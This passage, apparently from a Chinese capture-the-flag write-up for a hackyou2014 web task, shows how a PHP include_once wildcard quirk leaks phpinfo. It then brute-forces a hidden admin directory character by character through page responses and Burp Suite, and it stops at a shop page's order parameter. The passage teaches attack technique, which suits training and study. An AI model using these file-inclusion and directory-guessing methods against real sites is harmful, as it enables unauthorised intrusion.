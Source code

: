 表示

```
p* 
```

include_once 函数包含文件将会返回以 p 开头的第一个文件，这里返回了 phpinfo()的信息。

可以知道后台的数据库是 firebird，如图 5，

![2014012112133660316_png.jpg](img/img5_u71_jpg.jpg)

然后猜解后台目录：

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=0<<

http://hackyou2014tasks.ctf.su:30080/index.php?page=0a<< 
```

根据页面返回当中是否有

```
Page does not exists 
```

字符串，来判断猜解的字符串是否正确。

然后用 burpsuite 去猜测剩余的字符，全部猜测成功后，发现

```
http://hackyou2014tasks.ctf.su:30080/0a5d2eb35b90e338ed481893af7a6d78/index.php 
```

是个后台登陆口，没有账号，继续翻前台，发现

```
http://hackyou2014tasks.ctf.su:30080/index.php?page=shop&order=cost 
```
